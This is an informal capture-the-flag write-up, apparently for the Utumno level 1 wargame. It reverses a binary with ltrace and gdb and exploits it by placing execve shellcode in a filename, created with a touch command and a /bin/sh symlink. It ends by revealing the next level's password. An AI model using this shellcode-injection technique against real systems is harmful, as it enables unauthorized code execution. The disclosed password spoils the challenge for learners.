 upon running, nothing happens... we add an argument and use ltrace:  
we see opendir("a")  
so we make a file: /tmp/utm1/test  
again: we now see strcmp("sh_", "test")  
so we change the name to "sh_"...  
now we get SEGSIV - segmentation fault...  
we analyze main and see that the code iterates through the directory, and if strcmp if true, we start run()  
analyzing run, it swaps registers (unclear) - but its the cause to the jump in code - so using br we find out the code jumps to:  
0x804a062 -> the address just after "sh_", so we try to put the shellcode after sh_, but we get:  
cant touch '----' no such file or directory... we must remove /bin/sh...  
using dynamic link: ln -s /bin/sh sssh  
at last:  
touch $(python -c 'print "/tmp/utm1/sh_" + "\x31\xc0\x50\x68sssh\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')  
PATH=.:$PATH  
/utumno/utumno1 /tmp/utm1/  



password:  
ceewaceiph
